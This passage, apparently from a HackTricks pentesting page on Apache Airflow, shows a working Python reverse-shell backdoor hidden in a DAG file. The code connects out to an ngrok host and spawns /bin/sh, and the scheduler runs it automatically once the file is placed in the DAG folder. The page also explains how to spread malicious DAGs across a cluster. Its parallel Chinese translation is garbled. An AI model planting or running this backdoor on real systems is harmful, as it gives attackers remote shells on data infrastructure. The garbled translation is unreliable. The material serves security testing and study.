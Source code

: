 ```python
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```

## DAG Backdoor (RCE in Airflow scheduler)

## DAG后门（气流调度器中的RCE）

If you set something to be **executed in the root of the code**, at the moment of this writing, it will be **executed by the scheduler** after a couple of seconds after placing it inside the DAG's folder.

如果将某些内容设置为在代码**的根部执行的内容，那么在撰写本文的那一刻，将其**在将其放置在DAG的文件夹中后几秒钟后将被**执行。

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```

## DAG Creation

## DAG创建

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.

如果您设法**妥协了dag cluster **内部的机器，则可以在`dags/`文件夹中创建新的** dags脚本**，并且将在其余机器中**在其余机器中复制** DAG群。


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


